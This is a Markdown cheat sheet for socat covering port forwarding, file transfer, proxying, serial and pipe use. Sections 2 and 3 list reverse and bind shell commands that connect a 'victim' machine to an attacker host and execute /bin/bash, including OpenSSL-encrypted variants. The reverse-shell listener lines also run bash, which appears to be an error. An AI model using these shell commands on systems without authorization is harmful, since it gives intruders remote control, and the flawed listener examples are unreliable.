 ```yaml
---
title: Socat
tags:
  - socat
  - cheatsheet
---
```

Socat (SOcket CAT) is a versatile networking tool that can create bidirectional data transfers over various types of communication channels. Below are common commands and usage scenarios for Socat.

## 1. Basic Commands

### 1.1 Simple TCP Port Forwarding

```bash
# Forward traffic from a local port to a remote address and port
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<remote-ip>:<remote-port>
```

### 1.2 UDP Port Forwarding

```bash
# Forward traffic from a local UDP port to a remote UDP address and port
socat UDP-LISTEN:<local-port>,reuseaddr,fork UDP:<remote-ip>:<remote-port>
```

### 1.3 Connecting to a TCP Port

```bash
# Connect to a remote TCP service
socat TCP:<remote-ip>:<remote-port> -
```

### 1.4 Connecting to a UDP Port

```bash
# Connect to a remote UDP service
socat UDP:<remote-ip>:<remote-port> -
```

## 2. Reverse Shells

### 2.1 Simple Reverse Shell

```bash
# On the attacker's machine (listener)
socat TCP-LISTEN:<port>,reuseaddr,fork EXEC:/bin/bash

# On the victim's machine (reverse shell)
socat TCP:<attacker-ip>:<port> EXEC:/bin/bash
```

### 2.2 Encrypted Reverse Shell with OpenSSL

```bash
# On the attacker's machine (listener with OpenSSL)
socat OPENSSL-LISTEN:<port>,reuseaddr,fork,cert=cert.pem,cafile=ca.pem EXEC:/bin/bash

# On the victim's machine (reverse shell with OpenSSL)
socat OPENSSL:<attacker-ip>:<port>,verify=0 EXEC:/bin/bash
```

## 3. Bind Shells

### 3.1 Simple Bind Shell

```bash
# On the victim's machine (bind shell)
socat TCP-LISTEN:<port>,reuseaddr,fork EXEC:/bin/bash

# On the attacker's machine (connect to bind shell)
socat TCP:<victim-ip>:<port> -
```

### 3.2 Encrypted Bind Shell with OpenSSL

```bash
# On the victim's machine (bind shell with OpenSSL)
socat OPENSSL-LISTEN:<port>,reuseaddr,fork,cert=cert.pem,cafile=ca.pem EXEC:/bin/bash

# On the attacker's machine (connect to bind shell with OpenSSL)
socat OPENSSL:<victim-ip>:<port>,verify=0 -
```

## 4. File Transfers

### 4.1 Sending a File

```bash
# On the sender's machine
socat TCP-LISTEN:<port>,reuseaddr,fork FILE:<file-to-send>

# On the receiver's machine
socat TCP:<sender-ip>:<port> FILE:<output-file>,create
```

### 4.2 Receiving a File

```bash
# On the receiver's machine
socat TCP-LISTEN:<port>,reuseaddr,fork FILE:<output-file>,create

# On the sender's machine
socat TCP:<receiver-ip>:<port> FILE:<file-to-send>
```

## 5. Port Knocking

```bash
# Simple port knocking example
for x in {1111,2222,3333}; do socat TCP:<target-ip>:$x; done
```

## 6. Proxy and Tunneling

### 6.1 TCP Proxy

```bash
# Create a TCP proxy between a local and remote address
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<remote-ip>:<remote-port>
```

### 6.2 HTTP Proxy

```bash
# Create an HTTP proxy (acts as a basic web proxy)
socat TCP-LISTEN:<local-port>,reuseaddr,fork PROXY:<proxy-ip>:<proxy-port>
```

### 6.3 SSH Tunneling

```bash
# Tunnel SSH over a Socat connection
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<ssh-server-ip>:22
```

## 7. Redirecting Traffic

### 7.1 Redirect Traffic to Another Host

```bash
# Redirect incoming traffic to another host
socat TCP-LISTEN:<local-port>,reuseaddr,fork TCP:<target-ip>:<target-port>
```

### 7.2 Redirect Traffic to a File

```bash
# Redirect incoming traffic to a file
socat TCP-LISTEN:<local-port>,reuseaddr,fork FILE:<output-file>
```

## 8. Serial Communication

### 8.1 Simple Serial Port Communication

```bash
# Communication between two serial ports
socat /dev/ttyS0,raw,echo=0 /dev/ttyS1,raw,echo=0
```

### 8.2 Serial to TCP

```bash
# Forward serial port data to a TCP connection
socat /dev/ttyS0,raw,echo=0 TCP:<target-ip>:<port>
```

## 9. Working with Pipes

### 9.1 Create a Named Pipe

```bash
# Create a named pipe for inter-process communication
mkfifo /tmp/pipe
socat -u PIPE:/tmp/pipe TCP-LISTEN:<port>
```

### 9.2 Connect a Process to a Named Pipe

```bash
# Connect a process output to a named pipe
socat EXEC:'<command>' PIPE:/tmp/pipe
```

## 10. References

- [Socat Man Page](http://www.dest-unreach.org/socat/doc/socat.html)
- [High On Coffee - Socat Cheatsheet](https://highon.coffee/blog/socat-cheatsheet/)
